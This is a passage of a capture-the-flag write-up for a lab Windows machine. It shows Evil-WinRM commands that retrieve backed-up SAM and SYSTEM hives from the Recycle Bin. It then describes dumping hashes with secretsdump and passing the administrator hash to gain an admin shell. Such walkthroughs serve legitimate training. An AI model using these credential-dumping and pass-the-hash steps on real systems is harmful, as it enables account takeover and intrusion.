 We can then search inside the Recycle Bin with:

`cd 'C:\$Recycle.bin\<SID>`


```
*Evil-WinRM* PS C:\users\jareth\Desktop> cd 'C:\$Recycle.bin\S-1-5-21-1987495829-1628902820-919763334-1001'
*Evil-WinRM* PS C:\$Recycle.bin\S-1-5-21-1987495829-1628902820-919763334-1001> ls


    Directory: C:\$Recycle.bin\S-1-5-21-1987495829-1628902820-919763334-1001


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        9/18/2020   7:28 PM          49152 sam.bak
-a----        9/18/2020   7:28 PM       17457152 system.bak
```

Okey dokey, lets bring these back locally with evil-winrm's Download feature and dump some hashes.

But before we do that we'll need to copy these files out of the Recycle Bin:

```
*Evil-WinRM* PS C:\$Recycle.bin\S-1-5-21-1987495829-1628902820-919763334-1001> copy sam.bak C:\temp
*Evil-WinRM* PS C:\$Recycle.bin\S-1-5-21-1987495829-1628902820-919763334-1001> copy system.bak C:\temp
*Evil-WinRM* PS C:\$Recycle.bin\S-1-5-21-1987495829-1628902820-919763334-1001> cd C:\temp
```

Once you have the files locally we can use impacket-secretsdump to extract the hashes:

![yoto_secrets.png](../assets/year_of_the_owl_assets/yoto_secrets.png)

Nice, lets pass-the-hash and login with the administrator's password:

```
┌──(ryan㉿kali)-[~/THM/Year_Of_The_Owl]
└─$ evil-winrm -u administrator -i 10.10.174.131 -H 6bc99ede9edcfecf9662fb0c0ddcfa7a



Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
year-of-the-owl\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents> hostname
year-of-the-owl
```